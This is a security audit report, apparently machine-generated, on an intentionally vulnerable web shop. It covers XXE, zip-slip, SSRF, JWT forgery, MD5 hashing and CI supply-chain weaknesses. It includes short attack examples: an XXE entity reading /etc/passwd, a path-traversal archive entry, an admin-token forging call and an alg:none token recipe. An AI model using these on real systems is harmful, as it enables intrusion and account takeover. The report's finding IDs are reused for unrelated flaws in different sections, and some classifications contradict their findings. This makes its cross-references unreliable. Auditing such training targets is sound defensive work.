- 🟠 [F-028](#f-028) — Hardcoded HMAC key for security-question answers compounds the password-reset weakness documented in [§7.2.4](#724-password-reset).

### 7.10 File Parser and Outbound Request Controls

**Verdict:** 🔴 Unsafe

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.10.1 File Upload Security](#7101-file-upload-security)
- [7.10.2 XML External Entity (XXE) Prevention](#7102-xml-external-entity-xxe-prevention)

**Implemented controls:** `routes/fileUpload.ts`, multer middleware; `routes/fileUpload.ts:11`, libxmljs2.

**Assessment:** `multer` enforces a file-size limit on uploads, but no content-type allowlist restricts what files are accepted. The `libxmljs2` XML parser is invoked with DTD entity expansion enabled, producing an XXE attack surface. A separate SSRF path allows the application to fetch an attacker-controlled URL and write the response body to a world-readable public directory.

<a id="file-upload-security"></a>
#### 7.10.1 File Upload Security

**Status:** 🟠 Weak - `multer` imposes a file-size limit and sanitizes the filename, but the route accepts any content type including archives and XML, and Zip entry paths are not validated against the upload root.

`routes/fileUpload.ts` handles multipart POST `/file-upload`. `multer` is configured with a `limits.fileSize` constraint and calls `sanitize-filename` on the original filename. Uploaded files are written to `assets/public/images/uploads/`. A separate handler in `routes/profileImageUrlUpload.ts` fetches a user-supplied URL and writes the retrieved content to the same public directory.

**Security assessment**

Two weaknesses compound the upload surface:

- Zip-slip at `routes/fileUpload.ts:45`: uploaded ZIP archives are extracted with `unzipper` without normalizing entry paths. An archive containing an entry with path `../../../../etc/crontab` writes outside the upload root. The `sanitize-filename` call protects the top-level filename but is not applied to archive entry paths.
- SSRF at `routes/profileImageUrlUpload.ts:24`: the profile-image-URL handler fetches any supplied URL without scheme or host restriction. The response body is written to `assets/public/images/uploads/` (line 29), so the SSRF response is immediately world-readable via HTTP.

**Relevant findings**

- 🔴 [F-009](#f-009) — Zip-slip path traversal at `routes/fileUpload.ts:45`; archive entry paths not validated against the upload root.
- 🔴 [F-011](#f-011) — SSRF via unrestricted URL fetch in the profile-image handler at `routes/profileImageUrlUpload.ts:24`.
- 🔴 [F-014](#f-014) — SSRF response written to the public upload directory at `routes/profileImageUrlUpload.ts:29`; response body is immediately served over HTTP.

<a id="xml-external-entity-xxe-prevention"></a>
#### 7.10.2 XML External Entity (XXE) Prevention

**Status:** 🔴 Unsafe - `libxmljs2` is invoked at `routes/fileUpload.ts:83` with `noent: true`, which enables DTD external entity expansion, producing a full server-side XXE attack surface on the unauthenticated upload endpoint.

`routes/fileUpload.ts:11` imports `libxmljs2`. The XML parsing call at line 83 passes `{ noent: true }` in the options object, which instructs the parser to resolve `&entity;` references - including external entities pointing to local files or network addresses.

The parser invocation with the unsafe option:

```ts
const xmlDoc = libxmljs.parseXmlString(data, { noblanks: true, noent: true, nocdata: true })
```

**Security assessment**

`noent: true` enables external entity resolution. An uploaded XML file containing `<!ENTITY xxe SYSTEM "file:///etc/passwd">` followed by `&xxe;` causes `libxmljs2` to read `/etc/passwd` and interpolate the contents into the parsed document, which is then returned to the caller. A billion-laughs attack using deeply nested entity references causes exponential memory expansion (🟠 [F-044](#f-044) — XML Billion-Laughs DoS — `routes/fileUpload.ts:83`). The endpoint is unauthenticated (`server.ts:309`), so no credentials are required to exploit either the XXE read or the DoS path.

**Relevant findings**

- 🔴 [F-009](#f-009) — XXE at `routes/fileUpload.ts:83` via `noent: true`; local file disclosure without authentication.
- 🔴 [F-011](#f-011) — Billion-laughs DoS via unbounded entity expansion at the same parse call; no entity-count limit is configured.
- 🔴 [F-014](#f-014) — Unauthenticated access to `POST /file-upload` at `server.ts:309` means XXE is exploitable without any prior credential.

### 7.11 Operations Runtime and Supply Chain Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [7.11.1 Dependency Management and Vulnerability Scanning](#7111-dependency-management-and-vulnerability-scanning)
- [7.11.2 Rate Limiting and Anti-Automation](#7112-rate-limiting-and-anti-automation)
- [7.11.3 Security Logging and Monitoring](#7113-security-logging-and-monitoring)
- [7.11.4 Automated SCA scanning](#7114-automated-sca-scanning)
- [7.11.5 Automated dependency updates](#7115-automated-dependency-updates)
- [7.11.6 Lockfile hygiene](#7116-lockfile-hygiene)

**Implemented controls:** package\.json (no lock file); express-rate-limit (partial); `challengeUtils.solveIf()`, no dedicated security logging framework.

**Assessment:** No automated vulnerability scanning is wired into the CI pipeline. `package.json` ships without a `package-lock.json`, so dependency versions are non-deterministic across installs. GitHub Actions workflows run with default write-all `GITHUB_TOKEN` permissions and include third-party actions that are not pinned to commit SHAs. Rate limiting is applied to one endpoint via `express-rate-limit` but is absent on the login route and the file-upload endpoint.

<a id="dependency-management-and-vulnerability-scanning"></a>
#### 7.11.1 Dependency Management and Vulnerability Scanning

**Status:** 🔴 Missing - no `npm audit`, Dependabot, or equivalent SCA tool is configured to alert on known-vulnerable direct or transitive dependencies.

`package.json` declares direct dependencies without a corresponding `package-lock.json` in the repository. No `.github/dependabot.yml` configuration is present for the `npm` ecosystem. The CI workflow does not invoke `npm audit` or any equivalent SCA step. Docker base images in `Dockerfile:1` reference tags rather than digest pins.

**Security assessment**

Known-vulnerable versions of several direct dependencies are installed as declared in `package.json`: `sanitize-html@1.4.2` (known XSS bypass), and older versions of `jsonwebtoken` (algorithm confusion). Without a lockfile, transitive dependency resolution at `npm install` time may silently introduce newly-published versions of packages, including those with security advisories. Without Dependabot or equivalent, advisory notifications for existing dependencies are not delivered to the project team. The Docker image tag reference at `Dockerfile:1` means a base-image rebuild can silently substitute a different underlying layer.

**Relevant findings**

- 🟠 [F-021](#f-021) — `package.json` missing `package-lock.json`; dependency versions are non-deterministic.
- 🟠 [F-022](#f-022) — No Dependabot configuration for the npm ecosystem; no automated advisory notification.
- 🟠 [F-023](#f-023) — Docker base image at `Dockerfile:1` referenced by tag rather than digest; base-image substitution is silent.

<a id="rate-limiting-and-anti-automation"></a>
#### 7.11.2 Rate Limiting and Anti-Automation

**Status:** 🟡 Partial - `express-rate-limit` is used selectively but is absent on the login endpoint (`server.ts:594`) and the file-upload endpoint (`server.ts:309`), the two highest-value automation targets.

`express-rate-limit` is registered as middleware on some routes in `server.ts`. The login route at `server.ts:594` and the file-upload endpoint at `server.ts:309` are registered without a rate-limiting middleware wrapper. The `Socket.IO` WebSocket endpoint has no connection cap or message-rate limit.

**Security assessment**

The login endpoint at `server.ts:594` accepts an unlimited number of credential attempts, making automated brute-force attacks trivially executable. Combined with the `MD5`-based password storage and SQL injection bypass in [§7.2.1](#721-password-based-authentication) and [§7.5.1](#751-sql-query-parameterization), the absence of a rate limit means brute-force is not even the fastest attack path. The file-upload endpoint at `server.ts:309` is unauthenticated and unrated, enabling a resource-exhaustion attack via rapid XML billion-laughs uploads. The `Socket.IO` connection endpoint has no per-IP connection cap, enabling denial-of-service via connection flooding.

**Relevant findings**

- 🟠 [F-021](#f-021) — No rate limit on login endpoint at `server.ts:594`.
- 🟠 [F-022](#f-022) — No rate limit on file-upload endpoint at `server.ts:309`.
- 🟠 [F-023](#f-023) — No connection cap on `Socket.IO` endpoint at `registerWebsocketEvents.ts:20`.

<a id="security-logging-and-monitoring"></a>
#### 7.11.3 Security Logging and Monitoring

**Status:** 🟡 Partial - challenge-solve events are logged via `challengeUtils.solveIf()`, but authentication failures, password reset attempts, and administrative actions are not written to a structured audit log.

`lib/challengeUtils.ts` emits challenge-solved events (used for CTF tracking). Login success/failure events are not written to any structured log. `routes/resetPassword.ts` and the admin management routes in `server.ts` do not call any audit-logging function. Sequelize query logging is disabled in `models/index.ts:39`.

**Security assessment**

Authentication events are the highest-value security log category for a user-facing application - failed logins signal credential stuffing; unexpected resets signal account-takeover attempts. None of these events are logged to a format that a SIEM or alert system could consume. Sequelize query logging is disabled (`models/index.ts:39`), removing the database-tier audit trail. The combination means that an attacker who has exploited the SQL injection or IDOR paths leaves no record in any log file.

**Relevant findings**

- 🟠 [F-021](#f-021) — Missing audit log for authentication events; no login failure record is written.
- 🟠 [F-022](#f-022) — No audit log for file uploads at `routes/fileUpload.ts:75`; XXE exploitation leaves no server-side trace.
- 🟠 [F-023](#f-023) — Sequelize query logging disabled at `models/index.ts:39`; SQL injection exploitation is not logged at the database tier.

<a id="automated-sca-scanning"></a>
#### 7.11.4 Automated SCA scanning

**Status:** 🟢 Adequate - GitHub's CodeQL analysis workflow (`.github/workflows/codeql-analysis.yml`) provides static analysis coverage on every push, representing the one functioning automated security check in the CI pipeline.

`.github/workflows/codeql-analysis.yml` runs GitHub's CodeQL engine on the TypeScript codebase on push and pull-request events. The workflow scans for a broad set of security queries in the JavaScript/TypeScript query suite and uploads results to GitHub Security.

**Security assessment**

CodeQL analysis is present and functional; this is the application's only automated security-check layer. However, the CodeQL action at `.github/workflows/codeql-analysis.yml:23` is pinned to a version tag rather than a full commit SHA (🟠 [F-022](#f-022) — Unpinned third-party GitHub Action allows supply-chain code — `ci.yml:161`), which means a tag-move on the action repository could substitute a different version. Coverage is limited to what CodeQL's static analysis can detect - it will not catch runtime issues such as the hardcoded JWT key's exposure via the public repository or the absence of `package-lock.json`.

**Relevant findings**

- 🟠 [F-021](#f-021) — Dependency vulnerability scanning (Dependabot / `npm audit`) is absent despite the CodeQL workflow being present; the two controls address different threat surfaces.
- 🟠 [F-022](#f-022) — The CodeQL action at `.github/workflows/codeql-analysis.yml:23` is referenced by tag rather than commit SHA, exposing the CI step to supply-chain substitution.
- 🟠 [F-023](#f-023) — Docker image digest-pinning and lockfile discipline are outside CodeQL's detection scope.

<a id="automated-dependency-updates"></a>
#### 7.11.5 Automated dependency updates

**Status:** 🔴 Missing - no Dependabot or Renovate configuration exists for the npm ecosystem; no automated pull requests are raised when advisory-affected versions are in `package.json`.

`.github/dependabot.yml` is present in the repository but configures only the GitHub Actions ecosystem, not the `npm` package ecosystem. No `renovate.json` or equivalent is present.

Automated dependency updates reduce mean-time-to-patch for published advisories from "whenever a developer notices" to "within the configured PR cadence." The npm ecosystem is the primary advisory surface for this Node\.js application, covering all direct and transitive runtime dependencies.

**Security assessment**

Without automated dependency update PRs for npm, the project relies entirely on manual monitoring of advisory feeds. The known-vulnerable dependency versions visible in `package.json` - including `sanitize-html@1.4.2` with documented XSS bypasses - have been in place without remediation for an extended period. Enabling Dependabot for the `npm` ecosystem with a weekly grouping policy and a lockfile-commit step would address this systematically.

**Relevant findings**

- 🟠 [F-021](#f-021) — Absent npm Dependabot configuration means no advisory-triggered PRs are generated; vulnerable versions persist indefinitely.
- 🟠 [F-022](#f-022) — GitHub Actions Dependabot is configured, but npm coverage gap leaves the larger dependency surface unmonitored.
- 🟠 [F-023](#f-023) — Without a lockfile, even a configured Dependabot cannot pin a resolved version in the lock manifest.

<a id="lockfile-hygiene"></a>
#### 7.11.6 Lockfile hygiene

**Status:** 🔴 Missing - `package-lock.json` is absent from the repository; each `npm install` resolves dependency versions from the npm registry at the time of installation, producing non-deterministic builds.

`package.json` defines dependency version ranges (e.g. `"^2.3.1"`). Without `package-lock.json`, npm resolves these ranges against the current registry state on each install, potentially producing different resolved versions across developer machines, CI runners, and production container builds.

**Security assessment**

Non-deterministic dependency resolution is a supply-chain risk: a newly-published minor or patch release of any direct or transitive dependency - including one containing a malicious payload or a newly-discovered vulnerability - is silently picked up by the next `npm install` without a PR or review step. The `Dockerfile:5` uses `--unsafe-perm` during `npm install` as root, compounding the risk: a malicious postinstall script runs with root privileges in the build container. Committing `package-lock.json` and adding `npm ci` to the Dockerfile build step would pin the resolved tree.

**Relevant findings**

- 🟠 [F-021](#f-021) — `package.json` without `package-lock.json` at `package.json:88`; dependency tree is non-deterministic.
- 🟠 [F-022](#f-022) — `npm install --unsafe-perm` at `Dockerfile:5` runs postinstall scripts as root; a malicious package in the resolved tree executes with elevated privilege.
- 🟠 [F-023](#f-023) — Docker base image at `Dockerfile:1` is tag-referenced rather than digest-pinned, compounding the non-deterministic build surface.

### 7.12 Real-time and Not Applicable Controls

**Verdict:** 🔴 Unsafe

**Controls covered:**

- [7.12.1 WebSocket / `Socket.IO` Security](#7121-websocket-socketio-security)

**Implemented controls:** `lib/startup/registerWebsocketEvents.ts` (`Socket.IO` channel, challenge events, unauthenticated).

**Assessment:** The `Socket.IO` real-time channel is present and active; a "Not applicable" claim would contradict the recon evidence of `socket.io` in `package.json` and `lib/startup/registerWebsocketEvents.ts`. The channel accepts connections without authentication, processes challenge-solve events from unauthenticated clients, and has no connection cap or message rate limit.

<a id="websocket--socketio-security"></a>
#### 7.12.1 WebSocket / `Socket.IO` Security

**Status:** 🔴 Unsafe - the `Socket.IO` endpoint accepts connections without authentication, processes client-sent challenge-solver events without verifying caller identity, and has no per-IP connection cap.

`lib/startup/registerWebsocketEvents.ts` registers the `Socket.IO` server on the same port-3000 server as the Express API. The connection handler at line 24 does not inspect the handshake headers for a valid session token before accepting the connection. Event handlers registered at line 41 process `solve` and related events from any connected client.

**Security assessment**

Three weaknesses combine in this channel:

- No authentication gate at `registerWebsocketEvents.ts:24`: any browser or script can connect to the `Socket.IO` endpoint without a valid session token.
- Client-controlled challenge solver at `registerWebsocketEvents.ts:41`: connected clients can emit events that trigger `challengeUtils.solveIf()`, allowing arbitrary challenge-solve flag collection without completing the underlying vulnerability.
- No rate limit or connection cap at `registerWebsocketEvents.ts:20`: unlimited simultaneous connections from a single IP are accepted; a connection-flood DoS requires no credentials.

The server also broadcasts CTF flag notifications to all connected clients (🟠 [F-039](#f-039) — CTF Flag Broadcast to All Unauthenticated WebSocket — `lib/challengeUtils.ts:71`), exposing challenge solve events to unauthenticated observers.

**Relevant findings**

- 🔴 [F-017](#f-017) — Missing authentication on `Socket.IO` connection at `registerWebsocketEvents.ts:24`.
- 🟠 [F-053](#f-053) — Client-controlled challenge solver at `registerWebsocketEvents.ts:41`; unauthenticated clients can mark challenges solved.
- 🟡 [F-064](#f-064) — No rate limit or connection cap at `registerWebsocketEvents.ts:20`; connection-flood DoS possible without credentials.

### 7.13 Defense-in-Depth Summary

**Verdict:** -

`RS256` algorithm choice for JWT signing is the most technically sound individual decision in the codebase - when the private key is not compromised, `RS256` is a robust asymmetric signing scheme. The Helmet middleware is registered globally, providing a baseline set of security response headers. The Angular template engine's default HTML escaping prevents XSS in the majority of component templates that do not call `bypassSecurityTrustHtml()`. CodeQL static analysis runs on every push, providing the one automated security check in the CI pipeline.

The layered-defense model breaks at the following control boundaries, each of which independently bypasses a layer without requiring the others: the hardcoded RSA private key collapses the JWT boundary; the unsalted `MD5` hash collapses the credential-storage layer; SQL injection in the login route collapses the authentication layer without requiring a valid credential; and the absence of object-level authorization checks collapses the authorization layer for every authenticated user. Restoring layered defense requires addressing these four boundaries in sequence - starting with the signing-key and SQL-injection fixes, which each close the path to full application compromise independently.

<!-- enriched:standard -->

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Each finding is a card with the same fixed fields, in order: **Severity · Component · Location** → **Issue** → **Root cause** → **Evidence** → **Fix** → **Classification** (with external CWE / OWASP links).

**Risk Distribution:** 🔴 Critical: 13 · 🟠 High: 40 · 🟡 Medium: 11 · 🟢 Low: 4 · **Total findings: 68**
**STRIDE Coverage:** Spoofing: 7 · Tampering: 13 · Repudiation: 6 · Information Disclosure: 22 · Denial of Service: 8 · Elevation of Privilege: 12

**Findings index:**<br/>🟠 [F-001](#f-001) — JWT Session Token in localStorage (`login.component.ts:101`)<br/>🔴 [F-002](#f-002) — Derived Credential from OAuth Email Claim (`oauth.component.ts:30`)<br/>🔴 [F-003](#f-003) — Insecure JWT Verification (`lib/insecurity.ts:54`)<br/>🔴 [F-004](#f-004) — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery…<br/>🔴 [F-005](#f-005) — Unsalted MD5 password hashing (`lib/insecurity.ts:43`)<br/>🔴 [F-006](#f-006) — Insecure Direct Object Reference (`routes/address.ts:11`)<br/>🔴 [F-007](#f-007) — SQL Injection (`routes/login.ts:34`)<br/>🔴 [F-008](#f-008) — SQL Injection (`routes/search.ts:23`)<br/>🔴 [F-009](#f-009) — Server-Side Code Execution (`routes/userProfile.ts:62`)<br/>🔴 [F-010](#f-010) — Payment card numbers stored in plaintext (`models/card.ts:39`)<br/>🔴 [F-011](#f-011) — XML External Entity Expansion (`routes/fileUpload.ts:83`)<br/>🔴 [F-012](#f-012) — Client-Side-Only Route Guard Bypassable (`app.guard.ts:18`)<br/>🔴 [F-013](#f-013) — Role Escalation (`lib/insecurity.ts:56`)<br/>🔴 [F-014](#f-014) — Server-side RCE (`routes/b2bOrder.ts:23`)<br/>🟠 [F-015](#f-015) — OAuth Implicit Flow Token Exposure (`login.component.ts:134`)<br/>🟠 [F-016](#f-016) — Brute-Forceable Security Question Password Reset…<br/>🟠 [F-017](#f-017) — Missing Authentication on WebSocket Connection…<br/>🟠 [F-018](#f-018) — Stored XSS (`search-result.component.ts:132`)<br/>🟠 [F-019](#f-019) — DOM XSS (`search-result.component.ts:170`)<br/>🟠 [F-020](#f-020) — Stored XSS (`routes/saveLoginIp.ts:18`)<br/>🟠 [F-021](#f-021) — Npm install --unsafe-perm runs postinstall scripts as root in…<br/>🟠 [F-022](#f-022) — Unpinned third-party GitHub Action allows supply-chain code (`ci.yml:161`)<br/>🟠 [F-023](#f-023) — Absent on and no Dependabot leaves dependency tree unlocked…<br/>🟠 [F-024](#f-024) — User role field writable without ownership check in model…<br/>🟠 [F-025](#f-025) — Zip-Slip Path Traversal (`routes/fileUpload.ts:45`)<br/>🟠 [F-026](#f-026) — Missing Audit Logging for Authentication Events (`routes/login.ts:18`)<br/>🟠 [F-027](#f-027) — Missing Security Event Audit Log (`server.ts:338`)<br/>🟠 [F-028](#f-028) — Password Credentials in URL Query Parameters (`user.service.ts:54`)<br/>🟠 [F-029](#f-029) — Hardcoded HMAC Key for Security Answer Verification…<br/>🟠 [F-030](#f-030) — GitHub Actions workflow missing top-level permissions block…<br/>🟠 [F-031](#f-031) — Third-party GitHub Action not pinned to commit SHA…<br/>🟠 [F-032](#f-032) — Docker base image not digest-pinned — Dockerfile:1<br/>🟠 [F-033](#f-033) — On absent dependency versions not locked (`package-lock.json:1`)<br/>🟠 [F-034](#f-034) — SQLite database file stored unencrypted at rest (`models/index.ts:38`)<br/>🟠 [F-035](#f-035) — Unauthenticated Application Configuration Endpoint (`server.ts:605`)<br/>🟠 [F-036](#f-036) — Unauthenticated Directory Listing (`server.ts:277`)<br/>🟠 [F-037](#f-037) — SSRF Response Body Exposed (`routes/profileImageUrlUpload.ts:29`)<br/>🟠 [F-038](#f-038) — SSRF (`routes/profileImageUrlUpload.ts:24`)<br/>🟠 [F-039](#f-039) — CTF Flag Broadcast to All Unauthenticated WebSocket…<br/>🟠 [F-040](#f-040) — Unbounded In-Memory Token Map Enables Session Exhaustion…<br/>🟠 [F-041](#f-041) — Event-loop blocking DoS (`routes/b2bOrder.ts:23`)<br/>🟠 [F-042](#f-042) — Unbounded in-memory MarsDB collections with no eviction…<br/>🟠 [F-043](#f-043) — No Rate Limiting on Login Endpoint (`server.ts:594`)<br/>🟠 [F-044](#f-044) — XML Billion-Laughs DoS (`routes/fileUpload.ts:83`)<br/>🟠 [F-045](#f-045) — JWT Algorithm Bypass in 2FA Token Verification (`routes/2fa.ts:26`)<br/>🟠 [F-046](#f-046) — Sensitive Routes Registered Without Authentication Middleware…<br/>🟠 [F-047](#f-047) — Heroku CLI installed (`ci.yml:326`)<br/>🟠 [F-048](#f-048) — Missing workflow-level permissions block grants GITHUB_TOKEN (`ci.yml:1`)<br/>🟠 [F-049](#f-049) — Deterministic deluxeToken derivation enables unauthorized…<br/>🟠 [F-050](#f-050) — Missing Authorization on PUT `/api/Products/:id` (`server.ts:369`)<br/>🟠 [F-051](#f-051) — Mass Assignment Admin Role Injection (`server.ts:483`)<br/>🟠 [F-052](#f-052) — Unsafe YAML Deserialization (`routes/fileUpload.ts:117`)<br/>🟠 [F-053](#f-053) — Client-Controlled Challenge Solver (`registerWebsocketEvents.ts:41`)<br/>🟡 [F-054](#f-054) — XSS (`last-login-ip.component.ts:39`)<br/>🟡 [F-055](#f-055) — No audit log of B2B order submissions or RCE attempt…<br/>🟡 [F-056](#f-056) — Container images published without signing or build provenance…<br/>🟡 [F-057](#f-057) — Sequelize query logging disabled no data-layer audit trail…<br/>🟡 [F-058](#f-058) — Unauthenticated B2B API attack surface disclosure (`server.ts:286`)<br/>🟡 [F-059](#f-059) — Raw error propagation leaks safeEval execution details…<br/>🟡 [F-060](#f-060) — Container images not signed (`ci.yml:1`)<br/>🟡 [F-061](#f-061) — Untrusted npm Install/Postinstall Scripts Enabled — Dockerfile:5<br/>🟡 [F-062](#f-062) — Dependabot not configured for npm ecosystem (.github/dependabot.yml:1)<br/>🟡 [F-063](#f-063) — No Rate Limiting on Unauthenticated `/file-upload` Endpoint…<br/>🟡 [F-064](#f-064) — No Rate Limiting or Connection Cap on Socket\.IO…<br/>🟢 [F-065](#f-065) — No Audit Logging for Unauthenticated File Uploads…<br/>🟢 [F-066](#f-066) — SOLUTIONS_WEBHOOK secret exposed to Cypress test runner (`ci.yml:223`)<br/>🟢 [F-067](#f-067) — Missing HEALTHCHECK instruction — Dockerfile:1<br/>🟢 [F-068](#f-068) — No concurrency group on push-triggered matrix jobs enables CI (`ci.yml:1`)

<a id="th-01"></a><a id="th-02"></a><a id="th-03"></a><a id="th-05"></a><a id="th-06"></a><a id="th-10"></a><a id="th-04"></a><a id="th-07"></a><a id="th-08"></a><a id="th-11"></a><a id="th-12"></a><a id="th-14"></a><a id="th-16"></a><a id="th-17"></a><a id="th-09"></a>

### 🔴 Critical (13)

<a id="t-004"></a><a id="f-004"></a>
#### F-004 · Hardcoded Cryptographic Key

**Severity:** 🔴 Critical - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:23`

**Issue:** The 1024-bit RSA private key is embedded as a string literal at `lib/insecurity.ts:23`. Any actor with access to the repository (public GitHub repo) can extract it.

Because `security.authorize()` at line 56 signs all session JWTs with this key and `isAuthorized()` at line 54 verifies them with the corresponding public key, an attacker can call `jwt.sign({ data: { id: 1, role: 'admin', email: 'admin@juice-sh.op' } }, stolenPrivateKey, { algorithm: 'RS256' })` to mint a fully valid admin-role session token without providing credentials. The produced token passes all `expressJwt` middleware checks on every protected route.

Full authentication bypass - attacker impersonates any user including admin, gains access to all protected API endpoints, administrative functions, and user data.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - Line 23 of `lib/insecurity.ts` contains the full RSA private key as an inline string literal assigned to `const privateKey`; line 56 passes it directly to `jwt.sign()`.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ❶ [M-012](#m-012) — Move cryptographic keys to a managed secret store

**Classification:** Broken Authentication · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-010"></a><a id="f-010"></a>
#### F-010 · Cleartext Storage of Sensitive Data

**Severity:** 🔴 Critical - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-03](#c-03) - Data Layer (SQLite + MarsDB)  ·  **Location:** `models/card.ts:39`

**Issue:** The `Card` Sequelize model at `models/card.ts:39` declares `cardNum` as `DataTypes.INTEGER`. Full 16-digit payment card numbers are written to the `Cards` table in the SQLite database (`data/juiceshop.sqlite`) without any encryption, truncation, or masking.

Any actor with read access to the SQLite file - including via SQL injection (the known `sequelize.query()` sinks in `routes/login.ts:34` and `routes/search.ts:23`) or OS-level file access - retrieves complete PANs in a single SELECT. PCI-DSS Requirement 3.4 mandates that stored PANs be rendered unreadable (e.g., via AES-256 encryption or truncation to last four digits).

Mass PAN exposure: all stored card numbers are recoverable by any SQLite-file reader or SQL injection attacker without further privilege.

**Root cause:** Confidential files, credentials, and management-plane endpoints are reachable on unauthenticated routes; SSRF lets the server fetch internal resources on the attacker's behalf; unsafe path-handling primitives leak server content.

**Evidence:** ✓ verified - `cardNum` field in CardModel is `DataTypes.INTEGER` with no encryption column option; no field-level encryption hook exists in the model definition.

```typescript
// models/card.ts:39
        autoIncrement: true
      },
      fullName: DataTypes.STRING,
      cardNum: {
        type: DataTypes.INTEGER,
        validate: {
          isInt: true,
```

**Fix:** ❷ [M-018](#m-018) — Stop storing sensitive data in cleartext

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · Derived Credential OAuth Email Claim

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/oauth/oauth.component.ts:30`

**Issue:** When a user authenticates via Google OAuth, `oauth.component.ts:30-31` derives a password as `btoa(profile.email.split('').reverse().join(''))`. This password is then used to register or log in the user via the standard `/rest/user/login` endpoint.

Since the derivation algorithm is deterministic and publicly visible in the SPA source code, any attacker who knows the target user's email address can compute this password and authenticate through the password login endpoint without going through OAuth at all. This converts the OAuth flow into a trivially bypassable authentication scheme - the OAuth identity provider adds no actual security.

Any party knowing a victim's email can authenticate as that victim on the Juice Shop application without requiring the OAuth token or Google credential.

**Evidence:** ✓ verified - Line 30 of `oauth.component.ts` computes `btoa(profile.email.split('').reverse().join(''))` and uses it as both registration password and login credential, making the password fully predictable from public identity data.

```typescript
// frontend/src/app/oauth/oauth.component.ts:30
  ngOnInit (): void {
    this.userService.oauthLogin(this.parseRedirectUrlParams().access_token).subscribe({
      next: (profile: any) => {
        const password = btoa(profile.email.split('').reverse().join(''))
        this.userService.save({ email: profile.email, password, passwordRepeat: password }).subscribe({
          next: () => {
            this.login(profile)
```

**Fix:** ❶ [M-010](#m-010) — Remove derived-password pattern; enforce OAuth-only login path with server-side token exchange

**Classification:** OAuth / OIDC Misconfiguration · [CWE-522](https://cwe.mitre.org/data/definitions/522.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · Improper Authentication

**Severity:** 🔴 Critical  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:54`

**Instances (6):** 🔴 `lib/insecurity.ts:54`, 🟠 `lib/insecurity.ts:55`, 🟠 `lib/insecurity.ts:58`, 🔴 `lib/insecurity.ts:191`, 🔴 `routes/chatbot.ts:248`, 🔴 `routes/verify.ts:117`

**Issue:** `express-jwt@0.1.3` is configured at `lib/insecurity.ts:54` with only `{ secret: publicKey }` - no `algorithms` allowlist. `jsonwebtoken@0.4.0` (`CVE-2020-15084`) accepts tokens with `alg: 'none'` and an empty signature when no algorithm constraint is provided.

An attacker crafts the header `{"alg":"none","typ":"JWT"}` and any payload (e.g. `{"data":{"role":"admin"}}`), base64url-encodes them, appends an empty signature, and submits this token. `express-jwt@0.1.3` calls `jsonwebtoken.verify()` internally; without an algorithm constraint it accepts the token as valid, granting the attacker the role embedded in the payload.

Full authentication bypass without any valid credentials or knowledge of the private key - attacker can forge tokens with arbitrary roles.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - Line 54 passes only `{ secret: publicKey }` to `expressJwt()` with no `algorithms` field; `jsonwebtoken@0.4.0` in package\.json is the `CVE-2020-15084`-affected version.

```typescript
// lib/insecurity.ts:54
  return str
}

export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)
export const denyAll = () => expressJwt({ secret: '' + Math.random() } as any)
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
```

**Fix:** Strengthen authentication: enforce a vetted JWT verifier with explicit algorithm, MFA where appropriate → ❶ [M-011](#m-011) — Harden the authentication flow

**Classification:** Broken Authentication · [CWE-287](https://cwe.mitre.org/data/definitions/287.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-005"></a><a id="f-005"></a>
#### F-005 · Password Hash with Insufficient Effort

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-03](#c-03) - Data Layer (SQLite + MarsDB)  ·  **Location:** `lib/insecurity.ts:43`

**Issue:** All user passwords are hashed using `MD5` with no salt at `lib/insecurity.ts:43` (`crypto.createHash('md5').update(data).digest('hex')`), applied in the User model setter at `models/user.ts:77`. `MD5` is a broken cryptographic primitive for password storage: rainbow-table attacks against `MD5` are pre-computed at scale (CrackStation, `hashes.org`).

Because there is no per-user salt, two users with the same password produce the identical hash, enabling both cross-user correlation and bulk cracking. An attacker who exfiltrates the `Users` table (e.g., via the SQLi surfaces documented in known_vulns) can crack all hashes offline with commodity GPU resources in minutes, then log in as any user by submitting the recovered plaintext through `/rest/user/login`.

Full credential compromise for all users after any SQLite exfiltration; attacker can authenticate as any user including admins.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `security.hash()` at `lib/insecurity.ts:43` calls `crypto.createHash('md5')` with no salt argument; the model setter at `models/user.ts:77` invokes this for every password write.

**Fix:** Replace the broken hash with a salted password-hashing function (bcrypt/Argon2id) → ❶ [M-013](#m-013) — Hash passwords with a strong, salted algorithm

**Classification:** Cryptographic Failures · [CWE-916](https://cwe.mitre.org/data/definitions/916.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-006"></a><a id="f-006"></a>
#### F-006 · Insecure Direct Object Reference (IDOR)

